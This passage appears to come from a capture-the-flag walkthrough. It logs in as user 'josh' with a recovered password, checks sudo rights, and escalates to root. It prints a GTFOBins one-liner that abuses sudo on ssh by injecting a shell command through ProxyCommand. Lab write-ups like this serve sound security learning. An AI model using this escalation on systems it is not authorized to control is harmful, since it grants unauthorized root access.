

let’s try this password for josh user in the system



## Way to Root

let’s run `sudo -l` to see if josh has permissions to run any command as sudo



from GTFOBins i found - https://gtfobins.github.io/gtfobins/ssh/#sudo command to get root shell

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

